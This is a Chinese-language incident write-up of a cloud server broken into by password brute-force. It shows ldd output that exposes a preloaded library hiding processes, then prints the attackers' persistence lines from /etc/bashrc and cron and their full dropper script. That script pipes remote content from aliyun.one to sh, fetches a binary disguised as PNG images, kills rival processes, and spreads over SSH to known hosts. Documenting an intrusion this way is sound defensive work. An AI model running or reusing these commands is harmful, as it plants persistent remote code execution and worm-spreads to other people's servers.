 服务器被黑事件
==============

刚买的腾讯云服务器，因为临时测试下性能，所以只是设置了一个简单的密码，结果发现
被爆破。

登录上服务器，发现 CPU 负载很高，但用 top 命令却无法找到是哪个进程在占用 CPU。
参考了 `这篇文章 <https://mp.weixin.qq.com/s/1AF5cgo_hJ096LmX7ZHitA>`_ ，使用
ldd 查看 top 和 ps 的动态链接库，发现 ``/usr/local/lib/libevent_core-0.12.so``
比较可疑 : ::

    # ldd  `which top`
    linux-vdso.so.1 =>  (0x00007ffe21bc7000)
    /usr/local/lib/libevent_core-0.12.so (0x00007ff594420000)
    libprocps.so.4 => /lib64/libprocps.so.4 (0x00007ff5941f9000)
    libsystemd.so.0 => /lib64/libsystemd.so.0 (0x00007ff593fc8000)
    libncurses.so.5 => /lib64/libncurses.so.5 (0x00007ff593da1000)
    libtinfo.so.5 => /lib64/libtinfo.so.5 (0x00007ff593b77000)
    libdl.so.2 => /lib64/libdl.so.2 (0x00007ff593973000)
    libc.so.6 => /lib64/libc.so.6 (0x00007ff5935a5000)
    libcap.so.2 => /lib64/libcap.so.2 (0x00007ff5933a0000)
    libm.so.6 => /lib64/libm.so.6 (0x00007ff59309e000)
    librt.so.1 => /lib64/librt.so.1 (0x00007ff592e96000)
    libselinux.so.1 => /lib64/libselinux.so.1 (0x00007ff592c6f000)
    liblzma.so.5 => /lib64/liblzma.so.5 (0x00007ff592a49000)
    liblz4.so.1 => /lib64/liblz4.so.1 (0x00007ff592834000)
    libgcrypt.so.11 => /lib64/libgcrypt.so.11 (0x00007ff5925b3000)
    libgpg-error.so.0 => /lib64/libgpg-error.so.0 (0x00007ff5923ae000)
    libresolv.so.2 => /lib64/libresolv.so.2 (0x00007ff592195000)
    libdw.so.1 => /lib64/libdw.so.1 (0x00007ff591f44000)
    libgcc_s.so.1 => /lib64/libgcc_s.so.1 (0x00007ff591d2e000)
    libpthread.so.0 => /lib64/libpthread.so.0 (0x00007ff591b12000)
    /lib64/ld-linux-x86-64.so.2 (0x00007ff594626000)
    libattr.so.1 => /lib64/libattr.so.1 (0x00007ff59190d000)
    libpcre.so.1 => /lib64/libpcre.so.1 (0x00007ff5916ab000)
    libelf.so.1 => /lib64/libelf.so.1 (0x00007ff591493000)
    libz.so.1 => /lib64/libz.so.1 (0x00007ff59127d000)
    libbz2.so.1 => /lib64/libbz2.so.1 (0x00007ff59106d000)

    
    # ldd `which ps`
    linux-vdso.so.1 =>  (0x00007ffe8214a000)
    /usr/local/lib/libevent_core-0.12.so (0x00007f49ddc38000)
    libprocps.so.4 => /lib64/libprocps.so.4 (0x00007f49dda11000)
    libsystemd.so.0 => /lib64/libsystemd.so.0 (0x00007f49dd7e0000)
    libdl.so.2 => /lib64/libdl.so.2 (0x00007f49dd5dc000)
    libc.so.6 => /lib64/libc.so.6 (0x00007f49dd20e000)
    libcap.so.2 => /lib64/libcap.so.2 (0x00007f49dd009000)
    libm.so.6 => /lib64/libm.so.6 (0x00007f49dcd07000)
    librt.so.1 => /lib64/librt.so.1 (0x00007f49dcaff000)
    libselinux.so.1 => /lib64/libselinux.so.1 (0x00007f49dc8d8000)
    liblzma.so.5 => /lib64/liblzma.so.5 (0x00007f49dc6b2000)
    liblz4.so.1 => /lib64/liblz4.so.1 (0x00007f49dc49d000)
    libgcrypt.so.11 => /lib64/libgcrypt.so.11 (0x00007f49dc21c000)
    libgpg-error.so.0 => /lib64/libgpg-error.so.0 (0x00007f49dc017000)
    libresolv.so.2 => /lib64/libresolv.so.2 (0x00007f49dbdfe000)
    libdw.so.1 => /lib64/libdw.so.1 (0x00007f49dbbad000)
    libgcc_s.so.1 => /lib64/libgcc_s.so.1 (0x00007f49db997000)
    libpthread.so.0 => /lib64/libpthread.so.0 (0x00007f49db77b000)
    /lib64/ld-linux-x86-64.so.2 (0x00007f49dde3e000)
    libattr.so.1 => /lib64/libattr.so.1 (0x00007f49db576000)
    libpcre.so.1 => /lib64/libpcre.so.1 (0x00007f49db314000)
    libelf.so.1 => /lib64/libelf.so.1 (0x00007f49db0fc000)
    libz.so.1 => /lib64/libz.so.1 (0x00007f49daee6000)
    libbz2.so.1 => /lib64/libbz2.so.1 (0x00007f49dacd6000)


    # ldd `which vmstat`
    linux-vdso.so.1 =>  (0x00007ffd99ce3000)
    /usr/local/lib/libevent_core-0.12.so (0x00007fdf0f4cb000)
    libprocps.so.4 => /lib64/libprocps.so.4 (0x00007fdf0f2a4000)
    libsystemd.so.0 => /lib64/libsystemd.so.0 (0x00007fdf0f073000)
    libdl.so.2 => /lib64/libdl.so.2 (0x00007fdf0ee6f000)
    libc.so.6 => /lib64/libc.so.6 (0x00007fdf0eaa1000)
    libcap.so.2 => /lib64/libcap.so.2 (0x00007fdf0e89c000)
    libm.so.6 => /lib64/libm.so.6 (0x00007fdf0e59a000)
    librt.so.1 => /lib64/librt.so.1 (0x00007fdf0e392000)
    libselinux.so.1 => /lib64/libselinux.so.1 (0x00007fdf0e16b000)
    liblzma.so.5 => /lib64/liblzma.so.5 (0x00007fdf0df45000)
    liblz4.so.1 => /lib64/liblz4.so.1 (0x00007fdf0dd30000)
    libgcrypt.so.11 => /lib64/libgcrypt.so.11 (0x00007fdf0daaf000)
    libgpg-error.so.0 => /lib64/libgpg-error.so.0 (0x00007fdf0d8aa000)
    libresolv.so.2 => /lib64/libresolv.so.2 (0x00007fdf0d691000)
    libdw.so.1 => /lib64/libdw.so.1 (0x00007fdf0d440000)
    libgcc_s.so.1 => /lib64/libgcc_s.so.1 (0x00007fdf0d22a000)
    libpthread.so.0 => /lib64/libpthread.so.0 (0x00007fdf0d00e000)
    /lib64/ld-linux-x86-64.so.2 (0x00007fdf0f6d1000)
    libattr.so.1 => /lib64/libattr.so.1 (0x00007fdf0ce09000)
    libpcre.so.1 => /lib64/libpcre.so.1 (0x00007fdf0cba7000)
    libelf.so.1 => /lib64/libelf.so.1 (0x00007fdf0c98f000)
    libz.so.1 => /lib64/libz.so.1 (0x00007fdf0c779000)
    libbz2.so.1 => /lib64/libbz2.so.1 (0x00007fdf0c569000)

之后又找到了 `另一篇文章 <https://www.anquanke.com/post/id/171523>`_ ，发现它描
述的入侵案例和我遇到的一模一样，相关文件如下:

在 /etc/bashrc 中: ::

    (curl -fsSL -m180 aliyun.one||wget -q -T180 -O- aliyun.one||python -c 'import urllib;exec(urllib.urlopen("http://aliyun.one/pygo").read())')|sh >/dev/null 2>&1 &

在 /var/spool/cron/root 中: ::

    */15 * * * * (curl -fsSL -m180 aliyun.one||wget -q -T180 -O- aliyun.one||python -c 'import urllib;print(urllib.urlopen("http://aliyun.one").read())')|sh 


脚本: ::

    #<script>window.location.href="http://aliyun.com";</script><!--
    export PATH=$PATH:/bin:/usr/bin:/sbin:/usr/local/bin:/usr/sbin
    mv /bin/wge /bin/wget
    mv /bin/cur /bin/curl
    mv /usr/bin/wge /usr/bin/wget
    mv /usr/bin/cur /usr/bin/curl
    mkdir -p /tmp
    chmod 1777 /tmp
    echo "*/10 * * * * (curl -fsSL -m180 aliyun.one||wget -q -T180 -O- aliyun.one||python -c 'import urllib;print(urllib.urlopen(\"http://aliyun.one\").read())')|sh"|crontab -
    cat > /etc/crontab <<EOF
    SHELL=/bin/bash
    PATH=/sbin:/bin:/usr/sbin:/usr/bin

    */10 * * * * root (curl -fsSL -m180 aliyun.one||wget -q -T180 -O- aliyun.one||python -c 'import urllib;print(urllib.urlopen("http://aliyun.one").read())'||/usr/local/sbin/76572670a3)|sh
    EOF
    swapoff -a
    find /etc/cron*|xargs chattr -i
    find /var/spool/cron*|xargs chattr -i
    grep -RE "(wget|curl)" /etc/cron*|grep -v "aliyun.one"|cut -f 1 -d :|xargs rm -rf
    grep -RE "(wget|curl)" /var/spool/cron*|grep -v "aliyun.one"|cut -f 1 -d :|xargs rm -rf
    netstat -anp|grep :::6345|awk '{print $7}'|sed -e "s/\/.*//g"|xargs kill -9
    netstat -anp|grep 119.9.76.107:443|awk '{print $7}'|sed -e "s/\/.*//g"|xargs kill -9
    cd /tmp
    touch /usr/local/bin/writeablex && cd /usr/local/bin/
    touch /usr/libexec/writeablex && cd /usr/libexec/
    touch /usr/bin/writeablex && cd /usr/bin/
    rm -rf /usr/local/bin/writeablex /usr/libexec/writeablex /usr/bin/writeablex

    export PATH=$PATH:$(pwd)
    a64="img.sobot.com/chatres/89/msg/20191225/1/ec0991da601e45c4b0bb6178da5f0cc4.png"
    a32="img.sobot.com/chatres/89/msg/20191225/1/50659157a100466a88fed550423a38ee.png"
    b64="cdn.xiaoduoai.com/cvd/dist/fileUpload/1577269944760/2.637890910155951.png"
    b32="cdn.xiaoduoai.com/cvd/dist/fileUpload/1577269966297/8.872362655092918.png"
    c64="https://user-images.githubusercontent.com/56861392/71443284-08acf200-2745-11ea-8ef3-509d9072d970.png"
    c32="https://user-images.githubusercontent.com/56861392/71443285-08acf200-2745-11ea-96c3-0c2be9135085.png"
    if [ ! -f "76572670a3" ]; then
        ARCH=$(getconf LONG_BIT)
        if [ ${ARCH}x = "64x" ]; then
            (curl -fsSL -m180 $a64 -o 76572670a3||wget -T180 -q $a64 -O 76572670a3||python -c 'import urllib;urllib.urlretrieve("http://'$a64'", "76572670a3")'||curl -fsSL -m180 $b64 -o 76572670a3||wget -T180 -q $b64 -O 76572670a3||python -c 'import urllib;urllib.urlretrieve("http://'$b64'", "76572670a3")'||curl -fsSL -m180 $c64 -o 76572670a3||wget -T180 -q $c64 -O 76572670a3||python -c 'import urllib;urllib.urlretrieve("'$c64'", "76572670a3")')
        else
            (curl -fsSL -m180 $a32 -o 76572670a3||wget -T180 -q $a32 -O 76572670a3||python -c 'import urllib;urllib.urlretrieve("http://'$a32'", "76572670a3")'||curl -fsSL -m180 $b32 -o 76572670a3||wget -T180 -q $b32 -O 76572670a3||python -c 'import urllib;urllib.urlretrieve("http://'$b32'", "76572670a3")'||curl -fsSL -m180 $c32 -o 76572670a3||wget -T180 -q $c32 -O 76572670a3||python -c 'import urllib;urllib.urlretrieve("'$c32'", "76572670a3")')
        fi
    fi
    chmod +x 76572670a3
    $(pwd)/76572670a3 || ./76572670a3 || /usr/bin/76572670a3 || /usr/libexec/76572670a3 || /usr/local/bin/76572670a3 || 76572670a3 || /tmp/76572670a3 || /usr/local/sbin/76572670a3
    if [ -f /root/.ssh/known_hosts ]; then
      for h in $(grep -oE "\b([0-9]{1,3}\.){3}[0-9]{1,3}\b" /root/.ssh/known_hosts); do ssh -oBatchMode=yes -oConnectTimeout=5 -oStrictHostKeyChecking=no $h "(curl -fsSL aliyun.one||wget -q -O- aliyun.one||python -c 'import urllib;print(urllib.urlopen(\"http://aliyun.one\").read())')|sh >/dev/null 2>&1 &";done
    fi

    for file in /home/*
    do
        if test -d $file; then
            if [ -f $file/.ssh/known_hosts ]; then
                for h in $(grep -oE "\b([0-9]{1,3}\.){3}[0-9]{1,3}\b" $file/.ssh/known_hosts); do ssh -oBatchMode=yes -oConnectTimeout=5 -oStrictHostKeyChecking=no $h "(curl -fsSL aliyun.one||wget -q -O- aliyun.one||python -c 'import urllib;print(urllib.urlopen(\"http://aliyun.one\").read())')|sh >/dev/null 2>&1 &";done
            fi
        fi
    done
    #-->

Thanks for reading :)


References
----------

https://www.anquanke.com/post/id/171523

https://zhuanlan.zhihu.com/p/65609044


